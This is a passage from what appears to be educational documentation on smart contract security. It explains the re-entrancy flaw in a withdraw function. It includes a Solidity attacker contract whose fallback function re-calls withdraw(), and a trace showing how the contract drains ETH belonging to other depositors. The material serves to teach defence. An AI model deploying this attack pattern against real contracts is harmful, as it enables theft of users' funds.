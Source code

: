 To allow a user to withdraw ETH they have previously stored on the contract, this function

1. Reads how much balance a user has
2. Sends them that balance amount in ETH
3. Resets their balance to 0, so they cannot withdraw their balance again.

If called from a regular account (such as your own Metamask account), this functions as expected: msg.sender.call.value() simply sends your account ETH. However, smart contracts can make calls as well. If a custom, malicous contract is the one calling `withdraw()`, msg.sender.call.value() will not only send `amount` of ETH, it will also implicitly call the contract to begin executing code. Imagine this malicious contract:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Calling Attacker.beginAttack() will start a cycle that looks something like:

```
0.) Attacker's EOA calls Attacker.beginAttack() with 1 ETH
0.) Attacker.beginAttack() depits 1 ETH into Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim reads balanceOf[msg.sender]
  1.) Victim sends ETH to Attacker (which executes default function)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balanceOf[msg.sender]
    2.) Victim sends ETH to Attacker (which executes default function)
      3.) Attacker -> Victim.withdraw()
      3.) Victim reads balanceOf[msg.sender]
      3.) Victim sends ETH to Attacker (which executes default function)
        4.) Attacker no longer has enough gas, returns without calling again
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (it was already 0)
  1.) balances[msg.sender] = 0; (it was already 0)
```

Calling Attacker.beginAttack with 1 ETH will re-entrancy attack Victim, withdrawing more ETH than it provided (taken from other users' balances, causing the Victim contract to become under-collateralized)



### How to deal with re-entrancy (the wrong way) {#how-to-deal-with-re-entrancy-the-wrong-way}

